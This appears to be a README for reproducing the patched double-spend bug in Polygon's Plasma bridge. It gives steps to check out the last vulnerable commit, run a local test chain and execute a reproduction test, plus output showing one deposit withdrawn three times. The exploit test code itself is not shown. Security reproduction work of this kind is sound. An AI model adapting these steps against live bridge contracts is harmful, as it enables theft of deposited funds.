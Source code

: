 ### Polygon (Matic) Hack
- $2M white hat hacker bounty paid
- Writeup [here](https://gerhard-wagner.medium.com/double-spending-bug-in-polygons-plasma-bridge-2e0954ccadf1)
- The commit that fixes it is [here](https://github.com/maticnetwork/contracts/commit/283b8d2c1a9ff3dc88538820ffc4ea6a2459c040)
- It was merged [here](https://github.com/maticnetwork/contracts/pull/381). Latest should not exhibit the bug. `718bf86fada5dbd2fedcea0184a59921a625f356` should exhibit the bug.

### Polygon Setup on Ubuntu 18.04
- `git clone https://github.com/maticnetwork/contracts.git matic_contracts`
- `cp DoubleSpendRepro.test.js matic_contracts/test/integration/root/predicates/`
- `cd matic_contracts`
- `git checkout 718bf86fada5dbd2fedcea0184a59921a625f356` This is the last commit before it was fixed.
- Install dependencies: `sudo apt install gcc g++ make python`
- Install [nvm](https://github.com/nvm-sh/nvm)
- `nvm install 8.11.3`
- `nvm use 8.11.3`
- `node --version` should be 8.11.3
- `npm install`
- Install [Docker](https://docs.docker.com/engine/install/ubuntu/)
- Fix Docker permissions [here](https://docs.docker.com/engine/install/linux-postinstall/)
- Compile the test network: `npm run template:process -- --bor-chain-id 80001`
- `npm run truffle:compile`, should see `Compiled successfully using:`

### Polygon Run
- Run the main chain: `npm run testrpc`
- Run the matic sidechain: `npm run bor:simulate`, or stop an existing matic sidechain: `npm run bor:clean`
- Deploy the contracts: `npm run truffle:migrate`
- Set the command to only run our unit test, modify `npm test` in package.json to execute: `truffle test test/integration/root/predicates/DoubleSpendRepro.test.js --migrations_directory migrations_null`
- Run tests: `npm test`. Note that running `npm test` runs the migration.
- You will see this output:
```
  Contract: ReproduceDoubleSpendBug
    reproduceDoubleSpendBug
Deposit amount: 10000000000000000000
Before transfer root tokens: 0
Before transfer child tokens: 0
Before deposit root tokens: 10000000000000000000
Before deposit child tokens: 0
After deposit root tokens: 0
After deposit child tokens: 10000000000000000000
After withdraw root tokens: 0
After withdraw child tokens: 0
Branch mask:0x0080
After exit transaction root tokens: 0
After exit transaction child tokens: 0
After process exit root tokens: 10000000000000000000
After process exit child tokens: 0
Branch mask:0x0180
After exit transaction root tokens: 10000000000000000000
After exit transaction child tokens: 0
After process exit root tokens: 20000000000000000000
After process exit child tokens: 0
Branch mask:0x0280
After exit transaction root tokens: 20000000000000000000
After exit transaction child tokens: 0
After process exit root tokens: 30000000000000000000
After process exit child tokens: 0
```
The above successfully shows the attack where the user has withdrawn their tokens multiple times on the same deposit. 

### TODO
- It takes me 2min33s to run my test, how do I improve this iteration time? It's caused by truffle's migrations and deploys on every run.
- Why do I have to disable the bor chain id check in Root.sol? It's something to do with the test net setup
- Why do I not have to wait the 7 day challenge period to get the tokens back on the Ethereum side in my unit testing? Is something disabling it in the test net?
